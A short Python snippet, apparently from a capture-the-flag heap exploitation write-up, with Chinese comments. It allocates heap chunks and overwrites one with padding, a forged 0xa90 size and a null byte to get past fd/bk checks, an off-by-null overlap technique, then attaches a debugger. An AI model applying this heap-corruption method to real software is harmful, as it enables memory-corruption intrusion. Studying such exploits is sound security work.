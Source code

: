 ```py
add_chunk(4, 0x9f8)#这个chunk是为把chunk6写入

add_chunk(6, 0x428)
edit_chunk(6, p8(0))
add_chunk(8, 0x418)
add_chunk(9, 0x38)

edit_chunk(7, b'a' * 0x100 + p64(0xa90) + p8(0))#这里写了的一个a90的原因是因为前面的chunk大小的一个之和得到了一个一个0xa90并且可以绕过fd和bk的检查

# delete_chunk(4)

# gdb.attach(p)

gdb.attach(p)

p.interactive()

```

